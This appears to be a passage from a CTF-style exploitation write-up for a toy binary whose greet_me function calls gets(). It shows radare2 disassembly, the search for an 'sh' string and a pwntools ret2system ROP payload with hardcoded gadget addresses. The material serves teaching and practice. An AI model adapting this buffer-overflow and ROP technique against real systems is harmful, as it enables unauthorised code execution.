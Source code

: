 And now well need the "sh" string. It is important to note that we will need an "sh" string ended by a null terminator so sh\x00 is what we'll need.
```
/ (fcn) sym.greet_me 78
|   sym.greet_me ();
|           ; var int local_d0h @ rbp-0xd0
|              ; CALL XREF from 0x004005fb (sym.main)
|           0x0040058f      55             push rbp
|           0x00400590      4889e5         mov rbp, rsp
|           0x00400593      4881ecd00000.  sub rsp, 0xd0
|           0x0040059a      488d3d010100.  lea rdi, qword str.Enter_your_name: ; 0x4006a2 ; "Enter your name:" ; const char * format
|           0x004005a1      b800000000     mov eax, 0
|           0x004005a6      e8c5feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004005ab      488d8530ffff.  lea rax, qword [local_d0h]
|           0x004005b2      4889c7         mov rdi, rax                ; char *s
|           0x004005b5      b800000000     mov eax, 0
|           0x004005ba      e8c1feffff     call sym.imp.gets           ; char*gets(char *s)
|           0x004005bf      488d8530ffff.  lea rax, qword [local_d0h]
|           0x004005c6      4889c6         mov rsi, rax
|           0x004005c9      488d3de80000.  lea rdi, qword str.s__it_is_you_again______oh_my_gosh ; 0x4006b8 ; "%s !it is you again  !!! oh my gosh" ; const char * format
|           0x004005d0      b800000000     mov eax, 0
|           0x004005d5      e896feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004005da      90             nop
|           0x004005db      c9             leave
\           0x004005dc      c3             ret
[0x0040058f]> 
```
In this example this is easy as in "oh my gosh" we end with "sh" and then the string just ends there. 
```
[0x0040058f]> pxw @ 0x4006b8
0x004006b8  0x21207325 0x69207469 0x6f792073 0x67612075  %s !it is you ag
0x004006c8  0x206e6961 0x21212120 0x20686f20 0x6720796d  ain  !!! oh my g
0x004006d8  0x0068736f 0x3b031b01 0x00000048 0x00000008  osh....;H.......
0x004006e8  0xfffffd74 0x000000a4 0xfffffdb4 0x00000064  t...........d...
```
So we locate where "sh" starts and that'll be the address for our param:
```

[0x0040058f]> pxw @ 0x004006d9
0x004006d9  0x01006873 0x483b031b 0x08000000 0x74000000  sh....;H.......t
0x004006e9  0xa4fffffd 0xb4000000 0x64fffffd 0xe4000000  ...........d....
0x004006f9  0x90fffffd 0x9b000000 0xccfffffe 0xb3000000  ................
```
The exploit then can be crafted as the following:
```Py
from pwn import *

ret = 0x0040044e
pop_rdi_ret = 0x00400673
sh_address = 0x004006d9
system = 0x00400460

buf=  b'A' * 208
buf += b'\x42' * 8

buf += p64(ret)
buf += p64(pop_rdi_ret)
buf += p64(sh_address)
buf += p64(system)

```